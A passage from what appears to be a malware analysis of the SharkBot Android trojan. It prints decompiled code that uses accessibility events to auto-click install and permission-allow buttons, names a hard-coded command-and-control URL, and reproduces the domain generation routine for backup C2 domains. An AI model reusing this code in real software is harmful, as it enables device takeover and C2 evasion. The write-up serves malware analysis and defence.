 ```cs
                this.b = new JSONArray(new StringBuilder().insert(0, "[{\"action\":\"CLICK\",\"nodes\":[{\"search\":\"text\",\"data\":\"").append(this.L).append("\",\"attr\":{\"isClickable\":true},\"stopNext\":true},{\"search\":\"text\",\"data\":\"").append(this.F).append("\",\"attr\":{\"isClickable\":true},\"stopNext\":true},{\"search\":\"text\",\"data\":\"").append(this.L).append("\",\"getparent\":1,\"getparentClickable\" : true, \"attr\":{\"isClickable\":true},\"stopNext\":true},{\"search\":\"text\",\"data\":\"").append(this.F).append("\",\"getparent\":1,\"getparentClickable\" : true, \"attr\":{\"isClickable\":true},\"stopNext\":true},{\"search\":\"text\",\"data\":\"").append(this.L).append("\",\"get\":1,\"attr\":{\"isClickable\":true},\"stopNext\":true},{\"search\":\"text\",\"data\":\"").append(this.F).append("\",\"get\":1,\"attr\":{\"isClickable\":true},\"stopNext\":true},{\"search\":\"text\",\"data\":\"").append(this.L).append("\",\"get\":1,\"getparent\":1,\"getparentClickable\" : true, \"attr\":{\"isClickable\":true},\"stopNext\":true},{\"search\":\"text\",\"data\":\"").append(this.F).append("\",\"get\":1,\"getparent\":1,\"getparentClickable\" : true, \"attr\":{\"isClickable\":true},\"stopNext\":true},{\"search\":\"id\",\"data\":\"android:id/button1\",\"attr\":{\"isClickable\":true,\"isEnabled\":true}},{\"search\":\"id\",\"data\":\"com.android.settings:id/button1\",\"attr\":{\"isClickable\":true,\"isEnabled\":true}},{\"search\":\"id\",\"data\":\"com.android.packageinstaller:id/permission_allow_button\",\"attr\":{\"isClickable\":true,\"isEnabled\":true}},{\"search\":\"id\",\"data\":\"com.android.permissioncontroller:id/permission_allow_button\",\"attr\":{\"isClickable\":true,\"isEnabled\":true}}]},{\"global\":\"HOME\",\"event\":\"TYPE_WINDOW_CONTENT_CHANGED\"}]").toString());
                return;
            }

            this.b = new JSONArray(s);
        }
        catch(Exception unused_ex) {
        }
    }
```

# Domain Generation Algorithm DGA

In this sample, it has a hard-coded C2 server link  `http://f3eac8de096e59ca.live/`, but what happens if the C2 server is down? Here comes the role of DGA. DGA technique is used by attackers to create random domain names for C2 servers to prevent blocking their communication with C2 servers. Hard-coded C2 servers are easy to block or taken down but DGA is hard to block or taken down. In this version of SharkBot, the malware uses `MD5` to generate domain names, `get(3)` to get the current week of the current year, `get(1)` to get the current year.

```cs
 private String m() {
        try {
            StringBuilder stringBuilder0 = new StringBuilder();
            Calendar calendar0 = Calendar.getInstance();
            String[] arr_s = ".xyz,.live,.com,.store,.info,.top,.net".split(",");
            int v = 0;
            while(v < arr_s.length) {
                String s = arr_s[v];
                String s1 = aa.m().m(new StringBuilder().insert(0, s).append(calendar0.get(3)).toString()) + calendar0.get(1); //generate domain names
                ++v;
                stringBuilder0.append(",http://").append(s1.substring(0, 16)).append(s).append("/");
            }

            return stringBuilder0.toString().toLowerCase();
        }
        catch(Exception unused_ex) {
            return "";
        }
    }
```
